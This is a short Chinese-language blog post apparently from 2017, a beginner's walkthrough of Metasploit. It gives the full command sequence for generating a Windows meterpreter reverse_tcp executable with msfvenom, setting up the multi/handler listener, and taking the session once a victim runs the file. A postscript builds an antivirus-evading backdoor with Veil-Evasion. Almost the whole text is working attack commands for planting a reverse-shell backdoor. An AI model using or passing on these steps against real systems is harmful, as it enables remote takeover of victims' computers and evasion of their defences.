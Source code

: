 ```yaml
---
title: msf 初体验
date: 2017-2-6 18:09
tags: metasploit
---
```

# msf简单使用：(以windows/meterpreter/reverse_tcp为例)

## 1.payload设置：

新开终端
`msfvenom -l`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 -f exe -o /root/桌面/1.exe //生成exe文件`

## 2.监听：

进入metasploit
`use exploit/multi/handler`
`show options`

## 3.插入攻击荷载

show payloads
`set payload windows/meterpreter_reverse_tcp`
再次show options(出现LHOST和LPORT选项)
`set lhost 192.168.1.120`
`set lport 4444`

## 4.使用run 或者 exploit 启动攻击

等待被攻击主机中招，即可拿到session
使用jobs停止攻击
`sessions -l  //获取session列表`
`sessions -i 1 //进入meterpreter`

==============================
# PS:

## 使用veil-veasion生成后门：
打开终端
`veil-veasion`
`list`
`use 6 //以c为例`

生成的后台地址：
`/var/lib/veil-evasion/output/compiled/payload.exe`

在msf中使用：
`msfconsole -r /var/lib/veil-evasion/output/handlers/payload_handler.rc`
